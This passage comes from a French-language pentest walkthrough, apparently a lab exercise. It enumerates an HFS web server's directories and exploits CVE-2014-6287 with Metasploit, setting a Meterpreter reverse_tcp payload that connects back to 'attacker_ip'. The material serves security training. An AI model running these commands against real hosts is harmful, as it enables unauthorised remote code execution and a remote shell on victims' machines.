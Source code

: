 ### Énumération des Répertoires
```bash
# Gobuster pour découvrir des répertoires
gobuster dir -u http://target_ip:80/ -w /usr/share/wordlists/dirb/common.txt

# Dirb avec wordlist personnalisée
dirb http://target_ip:80/ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# Énumération manuelle des chemins HFS courants
curl http://target_ip:80/~login
curl http://target_ip:80/~files
```

## Exploitation avec Metasploit

### Configuration de Base
```bash
# Lancer Metasploit
msfconsole

# Rechercher les exploits HFS
search hfs
search CVE-2014-6287
```

### Exploit Principal - CVE-2014-6287
```bash
# Utiliser l'exploit HFS RCE
use exploit/windows/http/hfs_command_exec

# Afficher les informations de l'exploit
info

# Afficher les options
show options

# Configuration des paramètres requis
set RHOSTS target_ip
set RPORT 80
set TARGETURI /

# Configuration optionnelle
set LHOST attacker_ip
set LPORT 4444
```

### Configuration des Payloads

#### Meterpreter Windows x86
```bash
# Sélectionner le payload Meterpreter
set payload windows/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444

# Vérifier la configuration
show options

# Lancer l'exploitation
exploit
```
